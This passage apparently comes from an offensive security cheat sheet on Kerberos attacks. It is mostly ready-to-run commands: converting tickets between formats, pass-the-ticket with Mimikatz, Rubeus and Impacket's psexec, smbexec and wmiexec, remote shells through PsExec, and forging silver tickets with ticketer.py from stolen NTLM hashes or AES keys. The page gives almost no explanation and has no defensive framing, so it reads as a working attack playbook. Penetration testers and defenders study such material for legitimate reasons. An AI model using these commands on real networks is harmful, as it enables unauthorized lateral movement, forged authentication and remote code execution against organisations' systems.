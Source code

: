To convert tickets between Linux/Windows format with [ticket\_converter.py](https://github.com/Zer1t0/ticket_converter):

```powershell
# ccache (Linux), kirbi (Windows from mimi/Rubeus) 
python ticket_converter.py ticket.kirbi ticket.ccache
python ticket_converter.py ticket.ccache ticket.kirbi
```

#### Using ticket in Linux <a href="#using-ticket-in-linux" id="using-ticket-in-linux"></a>

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```powershell
# Set the ticket for impacket use
export KRB5CCNAME=<TGT_ccache_file_path>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

#### Using ticket in Windows <a href="#using-ticket-in-windows" id="using-ticket-in-windows"></a>

Inject ticket with [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```powershell
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):

```powershell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```powershell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

### Silver ticket <a href="#silver-ticket" id="silver-ticket"></a>

> Build a TGS with Service key

#### Linux (external) <a href="#linux-external-5" id="linux-external-5"></a>

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```powershell
# To generate the TGS with NTLM
python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# To generate the TGS with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```